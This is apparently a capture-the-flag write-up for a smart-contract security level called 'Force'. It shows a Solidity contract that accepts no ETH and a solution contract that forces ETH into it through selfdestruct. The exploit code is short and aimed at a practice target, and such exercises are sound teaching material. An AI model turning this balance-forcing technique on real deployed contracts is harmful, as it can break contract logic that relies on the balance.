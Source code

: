 Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

-   Fallback methods
-   Sometimes the best way to attack a contract is with another contract.
-   See the Help page above, section "Beyond the console"

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```



**SOLUTION:**

Even if a contract doesn't implement a receive / fallback or any payable functions to handle incoming ETH, it is still possible to forcefully send ETH to a contract through the use of `selfdestruct`. If you're deploying this contract through remix, don't forget to specify value before deploying the AttackForce contract or the `selfdestruct` won't be able to send any ETH over as there are no ETH in the contract to be sent over!

```
pragma solidity ^0.8.0;

contract AttackForce {

    constructor(address payable _victim) payable {
        selfdestruct(_victim);
    }
}
```